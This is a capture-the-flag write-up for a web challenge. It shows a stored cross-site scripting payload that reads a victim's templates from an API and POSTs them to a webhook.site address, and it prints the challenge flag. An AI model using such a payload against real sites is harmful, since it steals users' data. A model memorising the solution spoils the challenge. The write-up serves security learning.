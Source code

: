 # Taking the X out of Twitter

We notice that the path `/api/template/all` gives a list of all the templates a user has created.

Rooner has hidden the flag in his templates, so we launch a cross-site scripting attack to make him access `/api/template/all` and send the acquired data to us.

We create our own exploit template, let's call it `exploit`:
```js
<img src="/" onerror="fetch('/api/template/all/').then((res) => res.json()).then((res) => fetch('https://webhook.site/3dd2d66b-7ae2-4ef6-8c19-662382617a61', {method: 'POST', body: JSON.stringify(res)}))" );="" "="">
``` 

We post this exploit using `[[exploit]]`, and now whenever Rooner visits his feed, this sends a json record of Rooner's templates to the webhook created by us, where we find the flag.

## Flag

    cruXipher{cr0ss_s1t3_on_th3_s4me_s1t3}
